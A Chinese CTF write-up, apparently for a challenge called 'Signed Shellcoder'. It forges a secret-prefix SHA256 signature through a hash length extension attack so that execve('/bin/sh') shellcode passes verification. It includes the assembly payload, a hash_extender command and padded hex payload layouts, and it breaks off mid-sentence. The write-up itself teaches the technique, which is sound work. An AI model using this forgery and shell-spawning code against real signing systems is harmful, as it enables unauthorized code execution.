


# Signed Shellcoder

这段代码能干啥？

```assembly
# put message into stack
for ch in msg[::-1]:
	mov rcx, {ch}
	push rcx

mov rdi, 1
mov rsi, rsp
mov rdx, {msg_len}
mov rax, 1 # SYS_WRITE

# syscall(SYS_WRITE, STD_OUT, STACK, msg_len)
syscall

add {reg}, rcx
```

会通过 SHA256 对这些生成的代码签名，不符合的不予运行。

看起来好安全。

毫无疑问，我们的目的就是把这段代码给改成

```assembly
# put `/bin/sh` into stack
for ch in msg[::-1]:
	mov rcx, {ch}
	push rcx
	
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 59 # SYS_EXECVE

# syscall(SYS_EXECVE, STACK, 0, 0)
syscall
```

将其正确签名後，交给他执行。

然而……签名的过程是这样的：

1. 随机生成一个 32 ～ 64 字节的 Key，保存在 `SECRET_KEY` 中备用；
2. 随机选择一个 0 ～ 15 的数字，放在 `BKEY` 中备用；

Hash 的过程是，将 SECRET_KEY + data 交给 SHA256 进行 Digest，并且将其最后一位和 BKEY 做异或。得到的结果和 data 打包交给 Shellcoder。

> 后面半段就是数字签名嘛

解密的时候，所进行的操作是分离出 Signature 和 Data，对 Data 再进行一次 Digest，和 Signature 进行比较，从而判定这一 Shellcoder 是否合法。

换句话说，就是要伪造出「代码的数字签名」，骗过 Shellcoder。

换句话说，要在不知道 SECRET_KEY 的情况下，生成一对 (Data, Signature)（其中 Data 是恶意的）能通过 `hash_data` 检验。

显然，这里面用的 SHA256 算法就适用哈希扩展攻击。

不需要就任意的 Data 得到任意的 Signature，只要通过已知的一对（Data, Sig）生成（Data + Suffix，Sig）就可以了。

反正到时候都是要顺序执行的。

先生成（`/bin/sh` + `/rcx`）的一组 Data + Sig，然后只要在代码段後面添加上

```assembly
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 59 # SYS_EXECVE
```

就大功告成了。

[HashExtender](https://github.com/iagox86/hash_extender) 刚好支持这种奇妙的攻击方式。

用法如下：

```shell
yue$ ./hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5
```

假定 Hash 时的内存排布是这样的：

```
0000  73 65 63 72 65 74 64 61 74 61 80 00 00 00 00 00  secretdata......
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 00 00 00 00 00 00 50 00 00 00 00 00 00 00  ........P.......
```

因此我们构造这样的 Payload：

```
0000  64 61 74 61 80 00 00 00 00 00 00 00 00 00 00 00  data............
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 50 00 00 00 00 00 00 00 61 70 70 65 6e 64  ..P.......append
```

因为 Padding 规则，会变成这样：

```
0000  73 65 63 72 65 74 64 61 74 61 80 00 00 00 00 00  secretdata......
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 00 00 00 00 00 00 50 00 00 00 00 00 00 00  ........P.......
0040  61 70 70 65 6e 64                                append
```

让 append 独立于一个块进行 Hash，就有可能进行攻击。

这样做的条件是我们要知道 `secret` 的长度。好在根据 Python 脚本，这是一个 32 到 64 字节长的任意数字。

只要碰 32 次长度就好了。

但是，别忘了我们的 Hash 值最后一字节是被一个 0 ~ 16 的数字 XOR 过的。所以在不利用加密算法知识的情况下，我们还得尝试 16 倍的次数。

总的尝试次数也就 512 次，可以接受。

> 实际上 Hash Extender 提供了尝试不同长度的参数！太厉害了！

但是，好遗憾的是，这个 Python 脚本设置了 120 秒的超时。

我们没时间等下去！

得用 pwntools 自动化。

好了，现在应该已经伪造签名了。



唯一的问题就是……就是……我们附加的 Append 会和 Body 之间不可避免地存在一些填充字节。



主要是我们的 Body data 不够长。

因此，我们试着把 Message 弄长一点，看看能不能冲抵这个 Padding。

但是，遗憾的是这个 Message 限长 24。

因此，只能寄希望于 Secret 字节数够长，填满空隙！

Padding 的目标是使得长度 $=56 \pmod {64}$。而密码头的长度是 32 ～ 64。

Body 最短长度是 40（用 `/bin/sh` 作为 Message），最长长度是 70（在 Message 中加一堆 `/`）。

70 + 50 = 120 = 56 + 64。

没有填充的情况下，生成的 Forged Shellcode 是这样的：

```assembly
# normal payload
55:	80 00 00
58: 00 00
5a: 00 00
5c: 03 b8
# normal append
```

可以看到，多出来这么 9 个字节。哪儿来的？

试着把 Secret 长度调短一字节（反正是在本地），可以看到阑尾字节变成了：

```assembly
# normal payload
55: 80 00 00
58: 00 00
5a: 00 00
5c: 00 03 b0
```

十个字节。可以看出来，